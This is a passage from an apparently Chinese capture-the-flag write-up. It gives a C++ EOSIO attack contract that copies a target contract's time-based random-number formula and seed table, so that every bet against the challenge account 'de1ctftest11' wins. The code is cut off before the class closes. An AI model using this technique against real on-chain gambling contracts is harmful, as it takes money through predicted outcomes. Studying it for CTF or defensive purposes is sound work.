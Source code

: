 查看合约的 users 表发现我们成功得到了 win，这样子重复 10 次我们就可以稳稳当当的获取 10 次胜利！

当然，上面给出的是简化版本的攻击合约，标准的合约如下

```
#include &lt;eosio/eosio.hpp&gt;
#include &lt;eosio/system.hpp&gt;
#define TARGET_ACCOUNT "de1ctftest11"
using namespace eosio;

class [[eosio::contract]] attack : public contract `{`
  private:

    struct [[eosio::table]] seed `{`
      uint64_t        key = 1;
      uint32_t        value = 1;

      auto primary_key() const `{` return key; `}`
    `}`;

    typedef eosio::multi_index&lt;name("seed"), seed&gt; seed_table;

    seed_table _seed;

    int random(const int range)`{`
      // Find the existing seed
      auto seed_iterator = _seed.begin();

      // Initialize the seed with default value if it is not found
      if (seed_iterator == _seed.end()) `{`
        seed_iterator = _seed.emplace( _self, [&amp;]( auto&amp; seed ) `{` `}`);
      `}`

      // Generate new seed value using the existing seed value
      int prime = 65537;
      auto new_seed_value = (seed_iterator-&gt;value + (uint32_t)(eosio::current_time_point().sec_since_epoch())) % prime;


      // Get the random result in desired range
      int random_result = new_seed_value % range;
      return random_result;
    `}`

  public:
    using contract::contract;
    attack( name receiver, name code, datastream&lt;const char*&gt; ds ):contract(receiver, code, ds),
                       _seed(eosio::name(TARGET_ACCOUNT), eosio::name(TARGET_ACCOUNT).value) `{``}`

    [[eosio::action]]
    void makebet()
    `{`
      // Ensure this action is authorized by the player
      require_auth(get_self());
      int random_num = random(5);
      print("make bet ", random_num);

      action(
        permission_level`{`get_self(),"active"_n`}`,  //所需要的权限结构
        name(TARGET_ACCOUNT),                          // 调用的合约名称
        "bet"_n,                              // 合约的方法
        std::make_tuple(get_self(), random_num) // 传递的参数
      ).send();
    `}`
```